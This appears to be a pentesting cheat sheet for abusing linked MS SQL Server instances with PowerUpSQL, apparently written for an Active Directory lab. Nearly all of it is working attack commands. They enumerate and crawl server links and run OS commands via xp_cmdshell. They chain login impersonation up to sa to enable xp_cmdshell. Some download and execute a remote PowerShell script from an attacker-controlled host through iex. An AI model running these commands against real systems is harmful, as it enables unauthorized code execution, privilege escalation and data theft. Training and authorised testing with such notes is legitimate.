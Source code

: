 ### <span style="color:#F1C232">1. Enumerate SQL Server links</span>
 
```powershell
Get-SQLServerLink -Instance <instanceName> -Verbose
select * from master..sysservers
```

### <span style="color:#F1C232">2. Enumerate DB links</span>

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Verbose
select * from openquery("<instanceName>",'select * from openquery("<linkedInstance>",''select * from master..sysservers'')')
```

### <span style="color:#F1C232">3. Execute commands on target server</span>

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Query "exec master..xp_cmdshell 'whoami'" | ft
```

## <span style="color:lightgreen">Extra Commands</span>

### <span style="color:#F1C232">1. Download file on target server</span>
 
```powershell
Get-SQLServerLinkCrawl -Instance <instanceName> -Query 'exec master..xp_cmdshell "powershell -c iex (new-object net.webclient).downloadstring(''http://IP:8080/Invoke-HelloWorld.ps1'',''C:\Windows\Temp\Invoke-HelloWorld.ps1'')"'
```

### <span style="color:#F1C232">2. Impersonate an user</span>
 
```powershell
Invoke-SQLAuditPrivImpersonateLogin -Instance <instanceName> -Exploit -Verbose

#Then, we can EXECUTE AS, and chained the 'EXECUTE AS'
Get-SQLServerLinkCrawl -Verbose -Instance <instanceName> -Query "EXECUTE AS LOGIN = 'dbuser'; EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; EXEC master..xp_cmdshell 'powershell -c iex (new-object net.webclient).downloadstring(''http://IP/Invoke-HelloWorld.ps1'')'"
```

### <span style="color:#F1C232">3. Basic SQL Server queries for DB enumeration</span>
 
Also works with **Get-SQLServerLinkCrawl**
```powershell
#View all db in an instance
Get-SQLQuery -Instance <instanceName> -Query "SELECT name FROM sys.databases"

#View all tables
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.TABLES" 

#View all cols in all tables in a db
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.columns"

#View data in table
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName"
```
